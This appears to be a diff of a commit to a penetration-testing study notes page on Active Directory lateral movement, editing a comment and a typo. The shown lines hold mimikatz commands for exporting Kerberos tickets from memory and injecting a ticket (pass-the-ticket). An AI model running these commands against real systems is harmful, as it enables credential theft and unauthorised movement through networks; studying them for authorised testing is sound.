

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Active Directory/Lateral Movement.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/Active Directory/Lateral Movement.md
+++ b/Active Directory/Lateral Movement.md
@@ -43,10 +43,10 @@ mimikatz # kerberos::list
 
 Exporting all tickets(TGTs and TGSs) with mimikatz:
 
-mimikatz # sekurlsa::tickets /export   -> note that the TGTs can only be used from the machine they where generated on, the TGSs can be used elsewhere
+mimikatz # sekurlsa::tickets /export
 
 
-Injecting some ticket into memoeyr with mimikatz:
+Injecting some ticket into memory with mimikatz:
 
 mimikatz # kerberos::ptt 'C:\ticket.kirbi'
 ```
````
